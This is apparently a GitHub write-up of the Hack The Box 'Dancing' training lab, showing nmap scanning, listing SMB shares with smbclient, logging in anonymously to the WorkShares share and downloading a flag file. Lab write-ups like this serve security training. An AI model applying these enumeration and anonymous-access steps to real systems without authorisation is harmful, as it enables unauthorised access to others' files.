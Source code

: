 # 💃 Hack The Box – Dancing Walkthrough

> Status: Completed ✅  
> Difficulty: Easy  
> OS: Windows  
> Points: 20

---
## 🧰 Tools Used
- Nmap
- smbclient
- Kali Linux

## 🔎 Nmap Enumeration
- nmap -sCV 10.10.xx.xx
- Port 445: SMB open
- Port 135: RPC

## 🛠️ Server Message Block(SMB) Enumeration
- smbclient -L 10.10.xx.xx
- Anonymous login enabled
- Found share: WorkShares

## 💥 Exploit
- Used credentials found to log in or access flag path.
smbclient //10.10.xx.xx/WorkShares -N
- Download files:

1.	ls
2.	cd Amy.J
3.	ls
4.	cd ..
5.	cd James.P
6.	ls
7.	get flag.txt


